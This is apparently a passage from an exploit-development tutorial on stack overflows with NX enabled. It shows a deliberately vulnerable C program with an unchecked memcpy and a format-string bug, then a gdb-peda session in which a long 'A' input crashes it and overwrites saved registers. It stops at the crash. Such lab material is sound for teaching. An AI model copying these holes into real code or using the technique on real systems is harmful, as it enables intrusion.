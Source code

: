 Compile the code with stack executable protection
```
root@BOEING:# cat stack_overflow_basic.c
#include <stdio.h>

int main (int argc, char *argv[]) {
        char buf[256];
        memcpy(buf, argv[1], strlen(argv[1]));
        printf(buf);
}
root@BOEING:# gcc -ggdb -o stack_overflow_with_NX -mpreferred-stack-boundary=2 stack_overflow_basic.c 
...warning...blah...blah...
root@BOEING:# gdb ./stack_overflow_with_NX 
...warning...blah...blah...
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
gdb-peda$ 
```

You will see 

> NX        : ENABLED

That means the stack was non-executable.

Let start examine the program in gdb.
```
gdb-peda$ r $(python -c 'print("A"*265)')
Starting program: /kapi/exploitdev/stack_overflow_with_NX $(python -c 'print("A"*265)')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41414141 ('AAAA')
ECX: 0x80003115 --> 0x0 
EDX: 0xb7fb2870 --> 0x0 
ESI: 0xb7fb1000 --> 0x1aedb0 
EDI: 0xb7fb1000 --> 0x1aedb0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff5b0 --> 0x2 
EIP: 0xb7e1a541 (<__libc_start_main+65>:        adc    BYTE PTR [ebx+0x6a04ec],al)
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0xb7e1a541 <__libc_start_main+65>:   adc    BYTE PTR [ebx+0x6a04ec],al
   0xb7e1a547 <__libc_start_main+71>:   push   0x0
   0xb7e1a549 <__libc_start_main+73>:   push   eax
   0xb7e1a54a <__libc_start_main+74>:   call   0xb7e308e0 <__GI___cxa_atexit>
[------------------------------------stack-------------------------------------]
0000| 0xbffff5b0 --> 0x2 
0004| 0xbffff5b4 --> 0xbffff644 --> 0xbffff768 ("/kapi/exploitdev/stack_overflow_with_NX")
0008| 0xbffff5b8 --> 0xbffff650 --> 0xbffff89a ("XDG_SESSION_ID=161")
0012| 0xbffff5bc --> 0x0 
0016| 0xbffff5c0 --> 0x0 
0020| 0xbffff5c4 --> 0x0 
0024| 0xbffff5c8 --> 0xb7fb1000 --> 0x1aedb0 
0028| 0xbffff5cc --> 0xb7fffc04 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xb7e1a541 in __libc_start_main (main=0x2, argc=0x80000490, argv=0x0, init=0x800004c1 <_start+49>, fini=0x80000600 <main>, rtld_fini=0x2, 
```